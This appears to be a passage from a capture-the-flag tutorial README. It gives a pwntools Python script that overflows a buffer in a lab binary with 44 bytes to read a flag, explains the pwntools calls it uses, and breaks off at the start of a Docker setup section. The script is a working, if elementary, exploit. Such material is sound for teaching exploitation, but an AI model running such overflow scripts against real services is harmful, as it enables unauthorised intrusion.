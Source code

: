 ### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

context.log_level = "error"

LOCAL  = False
check  = True

while check:
  # Open a local process or a remote
  if LOCAL:
    r   = process("./challenge0")
  else:
    r   = remote("0.0.0.0", 1337)

  # Overflow the buffer with 44 bytes and overwrite the address of "target" with junk.
  r.sendlineafter(">", "A" * 44)

  # Read flag - unstable connection
  try:
    flag = r.recvline_contains("FLAG").decode()
    print(colored(f"\n[+] Flag: {flag}\n", "green"))
    check = False
  except:
    print(colored("\n[-] Failed to connect!", "red"))
  r.close()
```

Explaining the exploit:

First of all, we need to install [pwntools](https://docs.pwntools.com/en/stable/install.html).

The built-in functions are pretty self-explanatory.

```python
r = process("./challenge0")    # Opens a local process of the file given
r = remote("IP", port)         # Opens a remote instance on the given IP and port
e = ELF("./challenge0")        # Exposes functionality for manipulating ELF files
r.sendlineafter(">", "string") # Sends after ">" the srting "string"
r.recvline_contains("FLAG")    # Receive the line containing the string "FLAG"
r.close()                      # Closes the connection
```

### Docker 🐋

In order to set up a virtual environment for the program to run, we set up `Docker` instances. There are 3 files that we are going to use as templates:

